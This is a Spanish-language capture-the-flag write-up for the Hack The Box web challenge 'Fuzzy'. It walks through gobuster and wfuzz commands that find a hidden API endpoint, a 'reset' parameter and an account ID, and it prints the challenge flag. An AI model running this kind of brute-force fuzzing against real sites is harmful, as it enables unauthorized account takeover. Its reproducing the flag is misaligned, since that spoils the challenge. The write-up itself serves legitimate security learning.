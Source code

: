 # Fuzzy

*We have gained access to some infrastructure which we believe is connected to the internal network of our target. We need you to help obtain the administrator password for the website they are currently developing.*

Nos dan una ip que añadiremos al /etc/hosts como docker.htb con el objetivo

Bien el nombre del reto es una gran pista perse, empezemos con un pequeño fuzz de directorios 
```
gobuster -u http://docker.htb:32155 -w /usr/share/dirb/wordlists/big.txt -t 100

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://docker.htb:32155/
[+] Threads      : 100
[+] Wordlist     : /usr/share/dirb/wordlists/big.txt
[+] Status codes : 200,204,301,302,307,403
[+] Timeout      : 10s
=====================================================
2020/12/30 02:55:44 Starting gobuster
=====================================================
/api (Status: 301)
/css (Status: 301)
/js (Status: 301)
=====================================================
2020/12/30 02:56:16 Finished
=====================================================

```
Bien este /api parece sospechoso, fuzzeemos de nuevo pero esta vez en busca de archivos php

```
gobuster -u http://docker.htb:32155/api -w /usr/share/dirb/wordlists/big.txt -t 90 -x php,py,html,pl

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://docker.htb:32155/api/
[+] Threads      : 90
[+] Wordlist     : /usr/share/dirb/wordlists/big.txt
[+] Status codes : 200,204,301,302,307,403
[+] Extensions   : pl,php,py,html
[+] Timeout      : 10s
=====================================================
2020/12/30 03:17:49 Starting gobuster
=====================================================
/action.php (Status: 200)
=====================================================
2020/12/30 03:18:49 Finished
=====================================================
```
Bien accedemos a este archivo y nos da un error:
```
Error: Parameter not set
```
Parece que hay que fuzzear algún tipo de parametro, para esta tarea usaremos wfuzz en lugar de gobuster, primero ajustaremos la longitud de la respuesta que nos dan (24) para encontrar distintas , luego seeccionamos diccionario y ponemos el objetivo
```
wfuzz --hh=24 -w /usr/share/dirb/wordlists/big.txt  http://docker.htb:32155/api/action.php?FUZZ=uwu
********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://docker.htb:32155/api/action.php?FUZZ=uwu
Total requests: 20469

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                                           
===================================================================

000015356:   200        0 L      5 W      27 Ch       "reset"                                                                           
```
Bien parece que tenmos premio:
```
Error: Account ID not found
```
Bien toca fuzzear la ID de la cuenta, no sabemos que tipo de patron siguen para generarlas asi que podemos ir probando diccionarios hasta que la encontremos:, como antes ajustaremos la longitud de la respuesta y veremos que sucede
```
wfuzz --hh=27 -w /usr/share/dirb/wordlists/big.txt http://docker.htb:32155/api/action.php?reset=FUZZ
********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://docker.htb:32155/api/action.php?reset=FUZZ
Total requests: 20469

===================================================================
ID           Response   Lines    Word     Chars       Payload        
===================================================================

000000318:   200        0 L      10 W     74 Ch       "20"     
```
Tenemos premio:
```
You successfully reset your password! Please use HTB{h0t_fuzz3r} to login.
```
Flag: **HTB{h0t_fuzz3r}**
